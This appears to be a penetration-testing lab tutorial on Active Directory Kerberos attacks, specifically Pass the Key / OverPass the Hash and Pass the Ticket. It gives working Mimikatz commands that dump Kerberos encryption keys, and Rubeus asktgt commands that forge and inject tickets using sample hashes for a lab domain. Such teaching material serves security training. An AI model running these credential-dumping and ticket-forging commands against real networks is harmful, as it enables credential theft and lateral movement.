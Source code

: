 The traditional Pass the Hash (PtH) technique involves reusing an NTLM password hash that doesn't touch Kerberos. The Pass the Key or OverPass the Hash approach converts a hash/key (rc4_hmac, aes256_cts_hmac_sha1, etc.) for a domain-joined user into a full Ticket-Granting-Ticket (TGT). This technique was developed by Benjamin Delpy and Skip Duckwall in their presentation [Abusing Microsoft Kerberos - Sorry you guys don't get it](https://www.slideshare.net/gentilkiwi/abusing-microsoft-kerberos-sorry-you-guys-dont-get-it/18). Also Will Schroeder adapted their project to create the [Rubeus](https://github.com/GhostPack/Rubeus) tool.

To forge our tickets, we need to have the user's hash; we can use Mimikatz to dump all users Kerberos encryption keys using the module sekurlsa::ekeys.

### Mimikatz - Extract Kerberos Keys

```cmd
mimikatz.exe
privilege::debug
sekurlsa::ekeys
```

Now that we have access to the AES256_HMAC and RC4_HMAC keys, we can perform the OverPass the Hash or Pass the Key attack using Mimikatz and Rubeus.

### Mimikatz - Pass the Key or OverPass the Hash

```cmd
mimikatz.exe
privilege::debug
sekurlsa::pth /domain:inlanefreight.htb /user:plaintext /ntlm:3f74aa8f08f712f09cd5177b5c1ce50f
```

This will create a new cmd.exe window that we can use to request access to any service we want in the context of the target user.

To forge a ticket using Rubeus, we can use the module asktgt with the username, domain, and hash which can be /rc4, /aes128, /aes256, or /des. In the following example, we use the aes256 hash from the information we collect using Mimikatz sekurlsa::ekeys.

### Rubeus - Pass the Key or OverPass the Hash

```cmd
Rubeus.exe  asktgt /domain:inlanefreight.htb /user:plaintext /aes256:b21c99fc068e3ab2ca789bccbef67de43791fd911c6e15ead25641a8fda3fe60 /nowrap
```

> Note: Mimikatz requires administrative rights to perform the Pass the Key/OverPass the Hash attacks, while Rubeus doesn't.

### Pass the ticket

Now that we have some Kerberos tickets, we can use them to move laterally within an environment.

With Rubeus we performed an OverPass the Hash attack and retrieved the ticket in base64 format. Instead, we could use the flag /ptt to submit the ticket (TGT or TGS) to the current logon session.

```cmd
Rubeus.exe asktgt /domain:inlanefreight.htb /user:plaintext /rc4:3f74aa8f08f712f09cd5177b5c1ce50f /ptt
```
